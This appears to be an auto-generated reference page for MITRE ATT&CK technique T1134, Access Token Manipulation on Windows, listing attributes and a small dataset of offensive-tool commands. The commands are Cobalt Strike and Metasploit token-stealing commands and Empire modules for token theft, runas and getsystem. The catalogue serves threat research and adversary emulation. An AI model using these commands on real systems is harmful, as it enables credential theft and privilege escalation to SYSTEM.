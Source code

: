 ## Additional Attributes

* Bypass: None
* Effective Permissions: ['SYSTEM']
* Network: None
* Permissions: ['User', 'Administrator']
* Platforms: ['Windows']
* Remote: None
* Type: attack-pattern
* Wiki: https://attack.mitre.org/techniques/T1134

## Potential Commands

```
Token Stealing:
steal_token pid#
Token Stealing:
use incognito
list_tokens -u
impersonate_token DOMAIN\\User
or:
steal_token {pid}
powershell/credentials/tokens
powershell/credentials/tokens
powershell/management/runas
powershell/management/runas
powershell/privesc/getsystem
powershell/privesc/getsystem
```

## Commands Dataset

```
[{'command': 'Token Stealing:\nsteal_token pid#',
  'name': 'Cobalt Strike',
  'source': 'https://attack.mitre.org/docs/APT3_Adversary_Emulation_Field_Manual.xlsx'},
 {'command': 'Token Stealing:\n'
             'use incognito\n'
             'list_tokens -u\n'
             'impersonate_token DOMAIN\\\\User\n'
             'or:\n'
             'steal_token {pid}',
  'name': 'Metasploit',
  'source': 'https://attack.mitre.org/docs/APT3_Adversary_Emulation_Field_Manual.xlsx'},
 {'command': 'powershell/credentials/tokens',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/credentials/tokens',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/management/runas',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/management/runas',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/privesc/getsystem',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'},
 {'command': 'powershell/privesc/getsystem',
  'name': 'Empire Module Command',
  'source': 'https://github.com/dstepanic/attck_empire/blob/master/Empire_modules.xlsx?raw=true'}]
```

